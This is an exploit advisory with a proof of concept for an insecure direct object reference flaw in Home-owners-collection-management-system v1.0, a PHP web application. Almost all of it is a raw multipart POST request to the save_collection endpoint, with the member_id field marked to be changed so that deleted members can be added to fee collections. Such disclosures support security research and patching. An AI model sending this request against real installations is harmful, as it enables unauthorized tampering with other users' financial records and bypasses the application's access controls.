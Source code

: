 # Exploit Title: Home-owners-collection-management-system v1.0 - Insecure Direct Object Reference(IDOR)
## Date: 2/1/2024
## Vendor Homepage: https://www.sourcecodester.com/php/15162/home-owners-collection-management-system-phpoop-free-source-code.html
## Tested on: Debian Linux, Apache, Mysql
## Vendor: oretnom23
## Version: v1.0
## Exploit Description:
## Home-owners-collection-management-system v1.0 suffers from IDOR - Broken Access Control Vulnerability allowing attackers to add a member who is deleted to a collection(horizontal privilege escalation).

## -----------------------------------------------POC-------------------------------------------------------------------
```
POST /hocms/classes/Master.php?f=save_collection HTTP/1.1
...
------WebKitFormBoundary3m9mLqErqI5Ro07b
Content-Disposition: form-data; name="id"


------WebKitFormBoundary3m9mLqErqI5Ro07b
Content-Disposition: form-data; name="date_collected"

2023-10-04
------WebKitFormBoundary3m9mLqErqI5Ro07b
Content-Disposition: form-data; name="collected_by"

user2
------WebKitFormBoundary3m9mLqErqI5Ro07b
Content-Disposition: form-data; name="member_id"

4(CHANGE HERE)
------WebKitFormBoundary3m9mLqErqI5Ro07b
Content-Disposition: form-data; name="fee[3]"

100
------WebKitFormBoundary3m9mLqErqI5Ro07b
Content-Disposition: form-data; name="fee[4]"

100
------WebKitFormBoundary3m9mLqErqI5Ro07b
Content-Disposition: form-data; name="fee[1]"

200
------WebKitFormBoundary3m9mLqErqI5Ro07b
Content-Disposition: form-data; name="fee[5]"

50
------WebKitFormBoundary3m9mLqErqI5Ro07b
Content-Disposition: form-data; name="fee[2]"

200
------WebKitFormBoundary3m9mLqErqI5Ro07b
Content-Disposition: form-data; name="category_id[2]"

2
------WebKitFormBoundary3m9mLqErqI5Ro07b
Content-Disposition: form-data; name="total_amount"

200
------WebKitFormBoundary3m9mLqErqI5Ro07b--
```